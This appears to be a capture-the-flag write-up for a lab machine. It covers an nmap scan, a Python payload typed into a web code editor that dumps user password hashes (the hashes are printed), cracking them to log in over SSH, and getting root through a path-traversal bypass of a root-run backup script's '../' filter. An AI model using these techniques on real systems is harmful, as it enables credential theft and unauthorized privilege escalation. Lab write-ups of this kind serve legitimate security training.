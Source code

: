 # nmap

![code](../images/code.png)

`╰─❯ sudo nmap -sV 10.10.11.62
Password:
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-05-20 15:14 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.45% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.50% done; ETC: 15:14 (0:00:02 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.17% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.03% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:14 (0:00:06 remaining)
Nmap scan report for 10.10.11.62
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds`

from nmap we notice that theres http open in port 5000 and when you go to it you will find a online code editor for python

# user

after 30 mins of searching you can see that it might be a flask app with sqlalchemy running in it so a code like this will dump the hashes of the users

`print([(user.id, user.username, user.password) for user in User.query.all()])`

> [(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’), (2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)]

using crackstation you can find the password of ssh of the user martin

# privilege escalation

theres an app-producion directory that requires root so that is our target.

using sudo -l will tell the things we can run in sudo mode as martin and we will notice that theres a backup bash code that edits task.json

```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

so that means we can edit the directories to archive to any file we want so we will put user.txt and to go to root we will use the ../ method

/home/…./root

run the bash after editing the files
